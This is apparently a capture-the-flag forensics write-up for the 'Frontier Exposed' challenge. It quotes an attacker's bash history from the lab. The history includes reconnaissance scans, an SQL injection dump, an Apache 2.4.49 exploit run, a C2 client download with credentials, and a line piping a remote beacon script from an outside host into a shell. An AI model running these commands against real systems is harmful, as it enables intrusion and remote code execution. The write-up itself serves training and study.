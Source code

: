 # Frontier Exposed
- **Category:** Forensics
- **Difficulty:** Very Easy
- **Description:** "The chaos within the Frontier Cluster is relentless, with malicious actors exploiting vulnerabilities to establish footholds across the expanse. During routine surveillance, an open directory vulnerability was identified on a web server, suggesting suspicious activities tied to the Frontier Board. Your mission is to thoroughly investigate the server and determine a strategy to dismantle their infrastructure. Any credentials uncovered during the investigation would prove invaluable in achieving this objective. Spawn the docker and start the investigation!"

Accessing the docker URL will lead us to this page

![image](https://github.com/KimiNoPanda/CTF/blob/main/Write-up/HTB-Uni%20%3A%20Binary%20Badlands/Forensics/assets/1.png)

By opening each file, we can see in the `.bash_history` :

```bash
nmap -sC -sV nmap_scan_results.txt jackcolt.dev
cat nmap_scan_results.txt
gobuster dir -u http://jackcolt.dev -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -o dirs.txt
nc -zv jackcolt.dev 1-65535
curl -v http://jackcolt.dev
nikto -h http://jackcolt.dev
sqlmap -u "http://jackcolt.dev/login.php" --batch --dump-all
searchsploit apache 2.4.49
wget https://www.exploit-db.com/download/50383 -O exploit.sh
chmod u+x exploit.sh
echo "http://jackcolt.dev" > target.txt
./exploit target.txt /bin/sh whoami
wget https://notthefrontierboard/c2client -O c2client
chmod +x c2client
/c2client --server 'https://notthefrontierboard' --port 4444 --user admin --password SFRCe0MyX2NyM2QzbnQxNGxzXzN4cDBzM2R9
./exploit target.txt /bin/sh 'curl http://notthefrontierboard/files/beacon.sh|sh'
wget https://raw.githubusercontent.com/vulmon/Vulmap/refs/heads/master/Vulmap-Linux/vulmap-linux.py -O vulnmap-linux.py
cp vulnmap-linux.py /var/www/html
```

We can see the use of a password and copying it into cyberchef gives us the flag : HTB{C2_cr3d3nt14ls_3xp0s3d}
